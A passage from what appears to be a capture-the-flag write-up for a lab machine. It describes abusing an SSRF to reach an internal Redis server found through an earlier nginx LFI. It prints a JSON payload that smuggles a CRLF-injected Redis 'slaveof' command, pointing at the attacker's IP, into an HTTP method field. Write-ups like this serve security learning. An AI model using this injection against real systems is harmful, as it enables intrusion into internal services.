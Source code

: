 <figure><img src="../../.gitbook/assets/image (4200).png" alt=""><figcaption></figcaption></figure>

Attempts to use any other protocol fails:

<figure><img src="../../.gitbook/assets/image (4201).png" alt=""><figcaption></figcaption></figure>

Very early on, we saw that we had a Redis server operating on the server when we read the `.env` file through the `nginx` LFI exploit. I know that its possible to interact with Redis through HTTP requests, and the SSRF for this machine returns the message retrieved from its request.

From the `.env` file, the `REDIS_HOST` variable is set to `redis`, indicating that we have to use that. On the Hacktricks page for Redis, there's an interesting part that talks about `slaveof`.&#x20;

<figure><img src="../../.gitbook/assets/image (4202).png" alt=""><figcaption></figcaption></figure>

I used this JSON object:

```
{"url":"http://redis:6379/","method":"slaveof 10.10.14.32 6379\r\n"}
```

When I opened a listener port, this is what I got:

<figure><img src="../../.gitbook/assets/image (4203).png" alt=""><figcaption></figcaption></figure>
